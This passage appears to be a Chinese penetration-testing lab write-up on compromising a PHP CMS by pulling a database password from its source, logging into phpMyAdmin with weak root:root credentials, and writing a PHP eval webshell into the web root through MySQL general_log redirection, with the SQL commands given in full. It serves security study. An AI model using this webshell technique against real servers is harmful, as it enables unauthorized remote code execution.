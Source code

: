 这里主要可能有两个地方可以进行利用，一个是看看我们的cms是否有可以利用的地方、一个是看看那个phpmyadmin是否可以利用。

这里，我们由于下载到了源码，我们可以先看看源码中有没有敏感信息泄露。

#### 1）源码敏感信息泄露

一般来说，php的cms都会在conf.php中存有数据库的连接密码 ==> 一旦拿到我们就可以利用这个去连接数据库了！

![截图](ac3589ce53015bd2925f9f95a9733999.png)

很好这里还是个弱密码，可能不用看我们都可以进入了！那么这里拿到后，我们就进去phpmyadmin看看呗

#### 2）测试phpmyadmin -- getshell

利用弱密码root:root进入后，我们进去到newyxcms的yx_admin里看看能不能拿到这个cms的密码：

![截图](02b7cc74ae1a4ddf27b87dad1deb50b5.png)

我们解密看看：

....没查到

![截图](76998d6293d434a5c2154190a39adeab.png)

没事，我们接下来利用phpmyadmin来getshell。参考文章：https://www.cnblogs.com/0nc3/p/12071314.html

**getshell：**

首先，我们使用这个命令查看一下能否直接使用select into outfile直接写入：

```sql
show global variables like '%secure%';
```

![截图](28faa07eb7d597479077456a6f4cefce.png)

这里的`secure_file_priv为NULL`，表示限制mysql不允许导入导出（但好像可以开启？不确定有兴趣的可以看看）。

接下来我们试试看利用全局日志看看，查看一下配置：

```sql
show variables like '%general%';
```

![截图](29013af3c5cc9f6f97bf65ab10c3750d.png)

开启general log模式（需要用root，但我们权限就行root）

```sql
set global general_log = on;
```

设置日志目录为shell地址：

```sql
set global general_log_file = 'C:/phpStudy/www/yuan.php';
```

写入webshell：

```sql
select '<?php eval($_POST[cmd]);?>'
```
